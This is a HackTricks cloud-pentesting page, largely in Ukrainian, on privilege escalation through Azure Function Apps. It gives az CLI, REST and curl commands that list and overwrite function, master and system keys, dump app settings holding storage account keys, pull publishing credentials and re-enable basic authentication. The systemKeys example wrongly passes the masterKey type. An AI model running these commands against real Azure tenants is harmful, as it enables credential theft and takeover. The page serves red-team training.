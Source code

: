 # Az - Functions App Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Function Apps

Перевірте наступну сторінку для отримання додаткової інформації:

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

Ця дозволена дія дозволяє перерахувати функції, майстер-ключі та системні ключі, але не ключ хоста, вказаної функції з:

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

Ця дозволяє отримати ключ хоста вказаної функції за допомогою:

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

Цей дозвіл дозволяє створювати/оновлювати ключ функції для вказаної функції з:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

Ця дозволяє створювати/оновлювати головний ключ для вказаної функції з:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

Ця дозволяє створювати/оновлювати системний ключ функції для вказаної функції з:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

Ця дозволяє отримати змінні середовища функції. Всередині цих змінних може бути можливість знайти змінні за замовчуванням **`AzureWebJobsStorage`** або **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`**, які насправді містять **ключ облікового запису для доступу до блоб-сховища функції з ПОВНИМИ правами**.

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

Ці дозволи дозволяють перерахувати всі профілі публікації, які в основному містять **базові облікові дані аутентифікації**:
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **Метод SCM**

Тоді ви можете отримати доступ за допомогою цих **базових облікових даних для аутентифікації до URL SCM** вашого функціонального додатку та отримати значення змінних середовища:
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_Зверніть увагу, що **ім'я користувача SCM** зазвичай є символом "$", за яким слідує назва програми, отже: `$<app-name>`._

І ці змінні середовища містять **AccountKey** облікового запису зберігання, що зберігає дані програми функцій, що дозволяє контролювати цей обліковий запис зберігання.

Якщо ви бачите, що ці облікові дані **ЗАЧЕРНЕНІ**, це тому, що вам **необхідно увімкнути параметр базової аутентифікації SCM** і для цього вам потрібен другий дозвіл (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
